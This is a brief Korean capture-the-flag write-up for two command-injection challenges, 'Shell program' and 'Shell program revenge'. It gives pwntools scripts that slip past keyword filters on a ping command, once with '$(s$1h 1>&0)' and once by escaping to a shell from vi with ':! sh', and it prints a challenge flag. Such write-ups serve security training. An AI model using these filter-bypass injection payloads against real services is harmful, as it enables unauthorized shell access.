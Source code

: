 
### Shell program

```sh```가 필터링 되어있지만 $1로 필터링 우회를 할 수 있고 fd를 적당히 지정하면 쉘을 딸 수 있다. 

```python
#!/usr/bin/python
# coding: utf-8

from pwn import *

def main():
    # p = process('./shell_program')
    p = remote('layer7.kr', 12001)

    p.sendline('2')
    p.sendline('$(s$1h 1>&0)')

    p.interactive()

if __name__ == '__main__':
    main()

```

[*] flag : ```LAYER7{Wha4AAa4t_d03$_th1$_ch4r4ct3r_r3tuuuuurn?_$$$}```



### Shell program revenge

$ 를 사용하면 무조건 괄호를 사용하도록 되어있다. 그냥 ```$(vi)```를 하고 ```:! sh```로 우회 가능하다. 

```python
#!/usr/bin/python
# coding: utf-8

from pwn import *

def main():
    p = remote('layer7.kr', 12002)

    p.sendline('2')
    p.sendline('$(vi)')

    p.recvuntil('your command => ping ')
    p.sendline(':! sh 1>&0')

    sleep(2)
    p.interactive()

if __name__ == '__main__':
    main()

```
